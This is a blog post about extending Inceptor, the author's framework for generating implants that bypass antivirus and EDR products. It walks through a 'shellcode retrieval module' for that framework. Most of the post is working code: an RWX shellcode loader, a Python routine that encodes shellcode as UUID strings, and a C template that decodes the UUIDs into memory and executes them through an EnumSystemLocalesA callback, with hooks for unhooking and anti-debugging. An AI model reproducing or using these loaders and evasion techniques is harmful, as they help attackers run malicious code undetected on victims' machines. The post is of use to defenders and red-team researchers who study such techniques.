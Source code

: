 # Implementing Shellcode Retrieval

Recently, I developed a PoC AV/EDR Framework, called [Inceptor][1]. More information about the tool can
be found in the repository itself, and in the accompanying [blog post](../../AV_Evasion/CodeExeNewDotNet/).

What is important to know, is that Inceptor is a tool which can help to automate the process of developing 
implants which can automatically bypass common AV and EDR solutions. By default, Inceptor embeds
shellcode or PE (transformed into shellcode) within wrappers (or "templates"), which are designed to
load and execute them. Templates are editable, but till now the shellcode was always embedded very crudely 
within the template, in the form of a byte array.

A very easy example is provided below:

```cpp
// Shellcode embedded in the template
const unsigned char raw[] = "####SHELLCODE####";
int length = sizeof(raw);
// Allocate RWX space for the shellcode
VOID* mem = VirtualAlloc(NULL, length, 0x00002000 | 0x00001000, PAGE_EXECUTE_READWRITE);
bool success = false;
// Copy shellcode in memory 
success = memcpy(mem, raw, length);
// Function pointer to the start of the shellcode
int (*my_main)() = (int(*)()) ((ULONGLONG)mem);
// Execution
my_main();
```

This example serves just as a PoC. As such, we are not considering issues as having a RWX region of memory, 
lack of error handling, direct use of Windows APIs (which can be hooked), etc.

The issue we are interested in, for the scope of this post, is having the shellcode embedded as a byte array. 
Indeed, having large binary blob can be suspicious if the program is statically reversed. In some cases, as
with C# payloads, this can be really easily spotted, even with strong obfuscation in place.

Moreover, as observable in other researches, like [Lazarus-Shellcode-Execution](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/) by 
NCC Group, some forms of injection may use a special format, requiring the binary blob to further transformed.

However, so far, the shellcode format couldn't really be modified at all in Inceptor, which really limited 
the possibility of having other formats or retrieval mechanisms.

## The Shellcode Retrieval Module

In Inceptor, a user could already add or extend the tool functionality by adding or modifying a template or
a module. A module can be thought as a pluggable set of functionalities which can be added to a template.
Modules themselves are based on templates, which can be adapted, changed, or added, to provide the maximum 
level of customisation.

Based on this model, I thought it could be nice and easy to implement the shellcode embedding process as
a module itself. This is how it works:

![image](assets/srm.png)

As observable from the image, the logic is pretty simple. The `IShellcodeRetrievalModule` and 
`ShellcodeRetrievalModule` abstract classes act as the main interfaces for shellcode retrieval mechanisms. 
Actually, the `ShellcodeRetrievalModule` abstract class provides a genera logic for all modules which just performs operations
on the shellcode, while the `IShellcodeRetrievalModule` abstract class provides an empty interface for all 
Shellcode retrieval mechanisms which are too specialised to be generalised.

Important to note that with this logic, at least a shellcode retrieval module needs to be loaded. If no
SRM are detected, Inceptor will indeed load the `BlobShellcodeRetrievalModule` by default.

Every SRM module, by itself, wraps a function which returns the shellcode which needs to be loaded in memory.
The function is compiled with the shellcode (or other mechanism) within a `.lib` file, along with a 
header file with the function declaration. The Library is then linked to the final payload. 
The function symbol is known at Linking time thanks to header previously generated.

## Implementing UUID Shellcode Execute

Implemented the general SRM, it is possible to implement a specific shellcode retrieval mechanism.
The first test case was indeed the UUID-ShellExecute. This kind of mechanism is ideal because it doesn't 
change the general concept of shellcode embedding (the shellcode is indeed still embedded in the payload)
but changes its format from a bytearray to a sequence of UUID strings.

As `ShellcodeRetrievalModule` already implements the logic behind the header creation and library compilation,
the only thing needed to implement is the shellcode formatting. To do that, all ShellcodeRetrievalModule 
implementations must implement the `craft()` method.

We can borrow and adapt one of the Python implementations available on internet, such as the one by [Boku7](https://github.com/boku7/Ninja_UUID_Runner/blob/main/bin2uuids.py) 
or the one by [ChoiSG](https://github.com/ChoiSG/UuidShellcodeExec/blob/main/shellcodeToUUID.py).

The final implementation of craft would be the following:
```python
def craft(self, shellcode, language) -> (str, list, str):
    Console.warn_line("[WARNING] This module is only supported by 'uuid' based templates")
    Console.warn_line("[WARNING] This module is not compatible with LD encoders")
    data = shellcode
    if isinstance(shellcode, str):
        data = unhexlify(shellcode)
    if len(data) % 16 != 0:
        padding = b"\x90" * (16 - (len(data) % 16))
        data += padding
    uuids = []
    for i in range(0, len(data), 16):
        uuid_string = str(uuid.UUID(bytes_le=data[i:i + 16]))
        uuids.append(f'"{uuid_string}"')
    self.uuids = ",\n".join(uuids)
    self.shellcode_length = len(uuids)
    if language == Language.POWERSHELL:
        raise ModuleNotCompatibleException

    if language == Language.CSHARP:
        return "string[]", [], self.uuids
    elif language == Language.CPP:
        return "char**", [], self.uuids
```

The return tuple would be the triple `(return_type, [list of arguments], formatted_shellcode)`. Each of
the unpacked values would be then used to modify a function template similar to the following:

```
####RETURN_TYPE#### myFunction(####ARGS####){
    char* uuids[] = {
        ####SHELLLCODE####
    }
    ...
}
```

Although arguments substitution is mainly still a work in progress and far from being stable, this
substitution pattern has proven to offer good customization / stability tradeoff. 

Finally, it's necessary to implement a template supporting UUID-Shellcode Execution. For this task,
we can easily borrow an existing implementation, as the C++ by [NCC Group](https://gist.github.com/rxwx/c5e0e5bba8c272eb6daa587115ae0014/)
and the C# one by [ChoiSG](https://github.com/ChoiSG/UuidShellcodeExec/blob/main/USEConsole/Program.cs), which is using D/Invoke. 

The final template would be similar to the following>

```c
#include <Windows.h>
#include <Rpc.h>
#include <iostream>
//####USING####

//####DEFINE####

#pragma comment(lib, "Rpcrt4.lib")


int main()
{

    //####DELAY####
    //####SELF_DELETE####
    //####UNHOOK####
    //####ANTIDEBUG####

    char** uuids = ####SHELLCODE####;
    int elems = ####SHELLCODE_LENGTH####;

    VOID* ha = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000, PAGE_EXECUTE_READWRITE);
    DWORD_PTR hptr = (DWORD_PTR)ha;

    for (int i = 0; i < elems; i++) {
        printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
        printf("%s\n", *(uuids+i));
        RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
        RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
        if (status != RPC_S_OK) {
            printf("[-] Something went wrong\n");
            CloseHandle(ha);
            return -1;
        }
         hptr += 16;
    }

    EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);
    CloseHandle(ha);
    return 0;
}
```

And finally testing it using the following command line:

```
python inceptor.py native tests\calc64.raw -o uuid-shellexec.exe -m uuid_shellcode_retrieval
```

And it worked! 

![Calc](assets/calc.png)

Of course, this is just the start of the game. Now, that is possible to implement arbitrary methods to
retrieve the shellcode, it's a matter of time to come up with new, creative ways to hide and retrieve 
our code. In another post, I'll cover how it's possible to leverage the SRM interface to load payloads 
embedded as a local resource or ICON file (technique borrowed from Sektor7). 

## References

* [RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)

[Back](..)

[Back to Home](https://klezvirus.github.io/)

[1]: https://github.com/klezVirus/inceptor.git